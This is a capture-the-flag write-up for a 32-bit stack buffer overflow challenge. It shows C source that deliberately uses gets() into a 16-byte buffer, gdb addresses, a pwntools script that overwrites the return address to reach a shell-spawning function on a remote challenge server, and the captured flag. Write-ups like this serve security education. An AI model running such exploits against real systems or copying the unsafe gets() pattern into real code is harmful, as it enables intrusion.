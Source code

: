 ## Name: Baby Buffer Overflow - 32bit
#### Author: @aenygma
#### Category: PWN
#### Difficulty: N/D
#### Description: Can you command this program to where it cannot go? To get the flag, you must somehow take control of its excecution. Is it even possible?

## Procedure
The chall shows us the following code 
```
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}

```
### Babybuf content
* target() function prints "Jackpot!" and attempts to execute /bin/bash, opening a shell if the function is successfully called.
* vuln() declares a buffer buf with 16 bytes. Using gets(buf) here allows an arbitrary-length input, creating a buffer overflow vulnerability. By entering more than 16 bytes, you can overwrite the return address on the stack and redirect execution to target.

Opening the file with gdb and running ```info functions```, this show us the target addr ```0x080491f5``` we will need it to override the eip later.

```
0x08049020  gets@plt
0x08049030  execve@plt
0x08049040  puts@plt
0x08049050  fflush@plt
0x08049060  setbuf@plt
0x08049070  __libc_start_main@plt
0x08049080  _start
0x080490d2  __x86.get_pc_thunk.bx
0x080490e0  deregister_tm_clones
0x08049120  register_tm_clones
0x08049160  __do_global_dtors_aux
0x080491b0  frame_dummy
0x080491f5  target
0x08049236  vuln
0x08049252  main
```

I wrote the following python code.
```
from pwn import *

context(log_level='debug',os='linux',arch='i386')

r = remote('challenge.ctf.games',31053)

offset = 16
target = p32(0x080491f5)
eax = b"AAAA"
ebx = b"AAAA"
ecx = b"AAAA"

payload = offset * b'A' + eax + ebx + ecx + target
r.sendlineafter(b'Gimme some data!',payload)
r.interactive()
```

<img width="1046" alt="Screenshot 2024-10-25 at 10 06 42 AM" src="https://github.com/user-attachments/assets/5621b80c-031a-4295-b037-0a65a362febd">


flag{4cd3b4079393e861af489ca063373f98}
